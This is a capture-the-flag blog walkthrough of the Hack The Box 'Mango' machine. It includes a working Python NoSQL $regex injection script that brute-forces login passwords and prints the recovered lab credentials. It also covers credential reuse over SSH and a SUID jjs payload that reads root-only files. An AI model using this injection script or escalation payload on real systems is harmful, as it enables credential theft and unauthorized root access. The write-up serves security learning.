




 

## Summary

Mango just retired today. I had lots of fun solving it and I finally learned about NoSQL injections. Its IP address is ‘10.10.10.162’ and I added it to ‘/etc/hosts’ as ‘mango.htb’. Without further ado, let’s jump right in!

## Scanning & Sub-Domain Enum

As always, a light nmap scan was enough to get me started:


root@fury-battlestation:~/htb/blog/mango# nmap -O -sV mango.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-29 11:45 EST
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/29%OT=22%CT=1%CU=32119%PV=Y%DS=2%DC=I%G=Y%TM=5E08D8
OS:62%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2
OS:=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.06 seconds
root@fury-battlestation:~/htb/blog/mango#



When I tried accessing port 80, I got a 403 error:

However, port 443 returned a funny clone of Google called ‘Mango’:

Before testing this app for vulnerabilities, I mad sure the HTTPS certificate couldn’t be used to find other domains:


root@fury-battlestation:~/htb/blog/mango# nmap --script=ssl-cert -p 443 mango.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-29 11:50 EST
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.12s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
root@fury-battlestation:~/htb/blog/mango# 



The script discovered a sub-domain, so I tied accessing it. However, the page was identical to the one I got before:

After searching round for a bit, I realized I haven’t accessed the new sub-domain via HTTP yet. I did that and discovered a new sub-domain:

## Exploiting MongoDB

Since the machine name is Mango, I though that the backend database engine is almost certainly MongoDB. I used [this cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) to test for a possible NoSQL injection, and I found one :). I then tried logging in with multiple usernames and found that ‘mango’ was a valid one. The script below gave me the password for that user:


import requests
import sys
import hashlib
import string
import progressbar

url = "http://staging-order.mango.htb/"
login = "login"
username = "mango"

alphabet = string.printable.replace("*", "").replace("+", "").replace(".", "").replace("?", "").replace("|", "")
pwd = ""

def isPartialPassword(pwd):
	r = requests.post(url, data={'login': 'login', 'username': username, 'password[$regex]': "^" + pwd}, allow_redirects=False)
	return r.status_code == 302

def isFullPassword(pwd):
	r = requests.post(url, data={'login': 'login', 'username': username, 'password': pwd}, allow_redirects=False)
	return r.status_code == 302

while not isFullPassword(pwd):
	print("Searching for char...")
	bar = progressbar.ProgressBar(max_value=len(alphabet))
	bar.update(0)
	for ch in alphabet:
		if isPartialPassword(pwd + ch):
			pwd += ch
			print("New password: {}".format(pwd))
			break
		bar.update(alphabet.find(ch))

print("Password for {}: {}".format(username, pwd))



After letting it run for a few minutes, I got the user’s password:


root@fury-battlestation:~/htb/blog/mango# python login.py 
Searching for char...
 16% (16 of 95) |#######                                    | Elapsed Time: 0:00:07 ETA:   0:00:31
[...]
New password: h3mXK8RhU~f{]f5
Searching for char...
 44% (42 of 95) |###################                        | Elapsed Time: 0:00:23 ETA:   0:00:28
New password: h3mXK8RhU~f{]f5H
Password for mango: h3mXK8RhU~f{]f5H
root@fury-battlestation:~/htb/blog/mango#



I used ‘h3mXK8RhU~f{]f5H’ to log in to the application and I got the following page:

I tried seeing if there is any user named ‘admin’, and there was. His password might come in handy, so I used the same script to get his password (I just changed the username variable from “mango” to “admin”):


root@fury-battlestation:~/htb/blog/mango# sed -i 's/username = "mango"/username = "admin"/g' login.py 
root@fury-battlestation:~/htb/blog/mango# python login.py 
Searching for char...
 29% (28 of 95) |############                               | Elapsed Time: 0:00:14 ETA:   0:00:38
New password: t
[...]
New password: t9KcS3>!0B#
Searching for char...
  1% (1 of 95) |                                            | Elapsed Time: 0:00:00 ETA:   0:01:30
New password: t9KcS3>!0B#2
Password for admin: t9KcS3>!0B#2
root@fury-battlestation:~/htb/blog/mango#



However, the admin page looked exactly the same:

## Getting user.txt

After a bit of playing around, I tried to log in with SSH using the website credentials. It worked, but only for the mango user:


root@fury-battlestation:~/htb/blog/mango# ssh mango@mango.htb
mango@mango.htb;s password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

 * Kata Containers are now fully integrated in Charmed Kubernetes 1.16!
   Yes, charms take the Krazy out of K8s Kata Kluster Konstruction.

     https://ubuntu.com/kubernetes/docs/release-notes

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Dec 29 17:19:49 2019 from 10.10.14.28
mango@mango:~$ ls ~
mango@mango:~$



There was no ‘user.txt’ file, so I enumerated the users on the machine:


mango@mango:~$ ls -l /home
total 8
drwxr-xr-x 2 admin admin 4096 Sep 30 03:20 admin
drwxr-xr-x 4 mango mango 4096 Sep 28 15:27 mango
mango@mango:~$



There was an user called admin, so I tried using su to pivot to his account (I used admin’s web platform password):


mango@mango:~$ su -l admin
Password: 
$ /bin/bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ wc -c user.txt 
33 user.txt
admin@mango:/home/admin$



The user proof starts with ’79’ 😉

## Exploiting jjs to get root

Once I submitted the user proof, I started enumerating the machine again. While reading through the SUID binaries, one stood out:


admin@mango:/home/admin$ find / -perm -4000 2> /dev/null
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
[not_important_binaries]
/usr/lib/eject/dmcrypt-get-device
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
admin@mango:/home/admin$



I didn’t know what ‘jjs’ was, so I searched Google and I found the following explanation on Oracle’s site:

<blockquote>
  

    The jjs command-line tool is used to invoke the Nashorn engine. You can use it to interpret one or several script files, or to run an interactive shell.
  

  
  <cite>Link</cite>
</blockquote>

Helpful, as always :|. Fortunately, I also found the jjs binary on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/#suid). The basic idea is that an attacker can execute a specially crafted Java program that executes bash commands.


admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /home/admin/yakuhito').waitFor()" | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /home/admin/yakuhito').waitFor()
0
jjs> admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod 777 /hdmin/yakuhito').waitFor()" | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod 777 /home/admin/yakuhito').waitFor()
0
jjs> admin@mango:/home/admin$ wc -c /home/admin/yakuhito 
33 /home/admin/yakuhito
admin@mango:/home/admin$



The first two characters of the root proof are ‘8a’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

